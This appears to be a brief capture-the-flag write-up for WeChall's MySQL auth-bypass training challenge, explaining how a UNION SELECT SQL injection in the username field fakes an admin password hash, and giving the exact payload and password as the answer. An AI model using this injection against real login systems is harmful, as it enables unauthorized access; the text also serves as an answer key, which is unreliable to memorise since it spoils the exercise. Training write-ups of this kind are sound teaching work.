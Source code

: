 http://www.wechall.net/challenge/training/mysql/auth_bypass2/index.php

look at the code, there's only 3 line changed comparing to Training: MySQL I. it takes out password from the result of the vul SQL statement and check if it's equal to user's input

so we trick the auth system, make the result of the SQL statement look like admin's password is `202cb962ac59075b964b07152d234b70` (`123`'s md5 hash).

according to the table structure given at the top of the code, we can do `SELECT 1,'admin','202cb962ac59075b964b07152d234b70';`

so the final username is `' UNION SELECT 1,'admin','202cb962ac59075b964b07152d234b70';#`, password is `123`.

answer: username: `' UNION SELECT 1,'admin','202cb962ac59075b964b07152d234b70';#`, password: `123`
